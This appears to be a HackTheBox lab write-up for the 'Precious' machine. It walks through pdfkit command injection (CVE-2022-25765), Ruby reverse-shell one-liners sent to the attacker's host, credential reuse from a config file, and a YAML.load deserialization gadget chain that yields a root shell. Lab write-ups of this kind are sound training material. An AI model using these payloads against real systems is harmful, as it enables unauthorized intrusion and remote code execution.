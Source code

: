 ```yaml
---
layout: post
title: Precious
date: 2025-02-9 14:03 +0100
author: lone
description: Precious Easy Linux machine
image: /assets/img/precious/precious.webp
category: HackTheBox
tags: htb box writeup
published: true
sitemap: false
---
```


## TL;DR 
Precious is an Easy Difficulty Linux machine, that focuses on the `Ruby` language. It hosts a custom `Ruby` web application, using an outdated library, namely pdfkit, which is vulnerable to `CVE-2022-25765`, leading to an initial shell on the target machine. After a pivot using plaintext credentials that are found in a Gem repository `config` file, the box concludes with an insecure deserialization attack on a custom, outdated, `Ruby` script.

## Inital access

```bash
nmap -T4 -p- -min-parallelism 40 10.10.11.XXX
```
![Nmap Scan TCP](/assets/img/precious/scantcp.png)

```bash
echo "10.10.11.XXX precious.htb" | sudo tee -a /etc/hosts
```

Let's take a look at the website.

![Precious Website](/assets/img/precious/website.png)

It looks like you can convert web pages to pdf, but the machine only seems to have access to the internal network. Let's host a web page quickly to analyze the pdf.

```bash
exiftool u3oysnv[...]d00u0qq.pdf

ExifTool Version Number         : 12.76
[...]
Creator                         : Generated by pdfkit v0.8.6
```
pdfkit v0.8.6 seems to be vulnerable to a command injection ([CVE-2022-25765](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)) 
Let's try it out this payload

`http://10.10.XX.XX:80/?name=%20``whoami`` `

We URL Encode it before sending it
```bash
curl 'http://precious.htb' -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'url=http%3A%2F%2F10.10.XX.XX%3A80%2F%3Fname%3D%2520%60whoami%60'
```

And we receive a response on our server :

```bash
10.10.11.XXX - - [XX/XX/XX XX:XX:XX] "GET /?name=%20ruby HTTP/1.1" 200 -
```

Time to craft ourselves a reverse shell ! 
Let's setup a listenner :
```bash
pwncat-cs -p 1234
```

```ruby
ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.XX.XX",1234))'
```

We replace whoami by this new payload
```bash
curl 'http://precious.htb' -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d "url=http://10.10.XX.XX/?name=%2520%60ruby%20-rsocket%20-e'spawn(%22sh%22,%5B:in,:out,:err%5D=%3ETCPSocket.new(%2210.10.XX.XX%22,XXXX))'%60"
```

![Reverse Shell](/assets/img/precious/reverseshell.png)

There is a .bundle in the home directory of our user ruby. Let's investigate :

![Ruby Conf file](/assets/img/precious/rubypivottohenry.png)

Clear text password for the user henry ! And with this we got our first flag :

![First Flag](/assets/img/precious/henryflag.png)

## Privilege escalation

```bash
sudo -l

(root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

So let's see what does the script do

```ruby
cat /opt/update_dependencies.rb 
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

Seems we have a control on dependencies.yml that is load via YAML.load(). We find a [blogpost](https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/) about ruby deserialization via YAML.

Let's take and modify a bit the payload :

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.XX.XX",1234))' #modify the command here
         method_id: :resolve
```

Prepare your listenner then use our sudo privilege to run the ruby script in the folder where our payload is.

```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb
```
You should catch a root shell and find the root flag !

![Root Flag](../assets/img/precious/rootflag.png)
